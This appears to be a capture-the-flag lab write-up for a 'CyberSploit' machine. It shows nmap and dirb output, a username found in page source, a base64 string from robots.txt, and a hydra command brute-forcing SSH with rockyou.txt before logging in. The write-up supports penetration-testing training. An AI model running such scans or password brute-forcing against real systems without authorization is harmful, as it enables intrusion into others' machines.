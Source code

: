 ## Nmap Scan

```
nmap -sV -sC -A 192.168.53.92 --open -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 08:15 EDT
Nmap scan report for 192.168.53.92
Host is up (0.0045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds

```

## Dirb scan

```
dirb "http://192.168.53.92"

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  2 08:21:14 2023
URL_BASE: http://192.168.53.92/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.53.92/ ----
                                                                             + http://192.168.53.92/cgi-bin/ (CODE:403|SIZE:289)                         
+ http://192.168.53.92/hacker (CODE:200|SIZE:3757743)                       
+ http://192.168.53.92/index (CODE:200|SIZE:2333)                           
+ http://192.168.53.92/index.html (CODE:200|SIZE:2333)                      
+ http://192.168.53.92/robots (CODE:200|SIZE:53)                            
+ http://192.168.53.92/robots.txt (CODE:200|SIZE:53)                        
+ http://192.168.53.92/server-status (CODE:403|SIZE:294)                    
                                                                               
-----------------
END_TIME: Wed Aug  2 08:21:18 2023
DOWNLOADED: 4612 - FOUND: 7

```

## Finding Lead

- In the home page , we got username in source code 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/c0324ddc-fc4c-410c-ac88-49010954a409)

- In robots.txt found -- `Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=` -- base64 decoded text -- `cybersploit{youtube.com/c/cybersploit}`

## Hydra scan for SSH 

`hydra -l itsskv -P /usr/share/wordlists/rockyou.txt 192.168.53.92 -t 4 ssh`

- No use taking long time to bruteforce used the username - `itsskv`

## SSH login

- Using the cybersploit as password in SSH .



  
